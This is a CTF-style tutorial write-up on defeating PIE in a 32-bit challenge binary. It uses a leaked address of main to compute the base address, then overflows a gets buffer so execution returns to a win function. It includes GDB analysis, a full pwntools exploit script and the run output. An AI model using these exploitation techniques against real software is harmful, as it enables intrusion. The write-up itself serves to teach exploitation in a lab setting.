 ```yaml
---
description: Bypassing PIE with a provided address leak.
---
```


# gimme

{% file src="../../.gitbook/assets/gimme.zip" %}

This binary is the first we've covered thus far that enables PIE. We see this in the `checksec` output:

```bash
$ checksec gimme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The only thing that's disabled is the canary. This means that this code is still susceptible to buffer overflows.

### Static Analysis

We'll start PIE binaries the same way we start the others. While we search through the binary, we are looking for ways that can leak any address in the binary so that we beat PIE.

We'll start with `win()`. `win()` only makes one call to `system`. We can dissect that the string being passed is _cat flag.txt_, but I'll leave it to the reader to verify this.

The `main()` function only makes a call to `read_in` and then returns.

Now, let's discuss the `read_in` function. We can start dissecting each call and the arguments being passed. The first call is to `printf`:

```as
   0x565561fe <+21>:	lea    eax,[ebx-0x2dfb]
   0x56556204 <+27>:	push   eax
   0x56556205 <+28>:	lea    eax,[ebx-0x1fc0]
   0x5655620b <+34>:	push   eax
=> 0x5655620c <+35>:	call   0x56556050 <printf@plt>
```

Checking what's at the address pushed addresses:

```as
gef➤  x/s $ebx-0x1fc0
0x56557008:	"Main function is at: %lx\n"
gef➤  x/wx $ebx-0x2dfb
0x565561cd <main>:	0x83e58955
```

We see that the first call to `printf` is printing the address of `main`. After this, there is a `gets` call to a `0x30` byte buffer.

### The Attack Vector

We have everything we need. Our steps are:

1. Leak the address of `main`
2. Use this to register the base address of the binary
3. Calculate the address of `win`
4. Overwrite the return address with the address of `win`

Pwntools helps out with most of this. By loading in the binary using `ELF()`, the offsets will be automatically registered. Once we find the base address, we can register this inside the `ELF` object and proceed as usual.

We use `libc = elf.libc` to register the `libc` offsets. This is because we will be using the `system` call from `libc`. Then, we can call any function using `elf.sym.<function_name>`. When we find the base address, we store it in `elf.address`.

Let's make this happen. We first establish the binary and process:

```python
elf = context.binary = ELF('./gimme')
p = remote('vunrotc.cole-ellis.com', 7100)
```

From here, we get the leak. This is the same way we received the leak in [location](../02-shellcodes/location.md).

```python
p.recvuntil(b'at: ')
leak = int(p.recvline().strip(), 16)
```

Once we have the leak, we know that the base address is the leak minus the offset of `main`. We can then register this in the `ELF` object.

```python
elf.address = leak - elf.sym.main
```

Now, when we use the `elf.sym.<function_name>` syntax, it automatically adds the base address to the offset. Now, we can build our payload using `elf.sym.win` instead of a hardcoded address.

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload and get the flag:

```python
p.sendline(payload)
p.interactive()
```

As we can see, PIE is bypassed, and the binary is exploited:

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 7100: Done
[*] Switching to interactive mode
flag{bye_bye_ms_american_pie}
/home/ctf/runner.sh: line 5:    12 Segmentation fault      (core dumped) ./gimme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 7100
```
